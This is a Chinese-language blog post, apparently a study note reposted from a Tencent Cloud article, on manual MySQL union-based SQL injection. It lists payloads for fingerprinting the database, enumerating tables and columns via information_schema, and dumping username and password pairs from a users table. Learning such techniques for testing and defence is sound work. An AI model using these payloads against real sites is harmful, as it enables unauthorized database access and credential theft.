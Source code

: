 ```yaml
---
layout: post
title: MySQL手工注入之基本注入流程
categories: 安全知识
description: MySQL手工注入之基本注入流程
keywords: sql注入
---
```


# mysql 盲注学习

盲注有哪些分类？
总体来讲，盲注分为**布尔型**和**延时型**两大类。

[一文搞定 MySQL 盲注](https://www.anquanke.com/post/id/266244#h3-2)

[sql 介绍](http://www.yowell.pw/?p=327)


# 收集信息
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:MySQL常用的系统函数

```dotnetcli
version()            #MySQL版本user()               
#数据库用户名database()           #数据库名@@datadir            #数据库路径
@@version_compile_os #操作系统版本

```

```powershell

?id=1'		(测试是否存在注入,报错说明闭合成功，则存在）
?id=1'-- -		(注释后面多余的’limit 0,1 页面正常）
?id=1'order by n-- -		(order by 猜列数）
?id=-1’union select 1,2,3-- -
?id=-1’union select 1,2,database()-- -		(在页面回显出当前的数据库名字）
?id=-1’union select 1,2,group_concat(table_name) from information_schema.tables where t			able_schema=database() -- -		(爆出当前数据库的所有表）
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' -- -		(爆出目标表的列名）
?id=0‘ union select 1,2,group_concat(username,0x3a,password) from users-- -		(爆字段)

```

## 查询当前数据库名

```dotnetcli
id=1' and 1=2 UNION SELECT 1,database(),3 --+

```
## 查询MySQL版本

```dotnetcli

id=1' and 1=2 UNION SELECT 1,2,version() --+

```
## 查询数据库用户和路径

```dotnetcli
id=1' and 1=2 UNION SELECT 1,user(),@@datadir --+

```

# 查询表名

database 查询数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```
## 单引号-数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

```

# 转载
[新手科普 | MySQL手工注入之基本注入流程
](https://cloud.tencent.com/developer/article/1482397)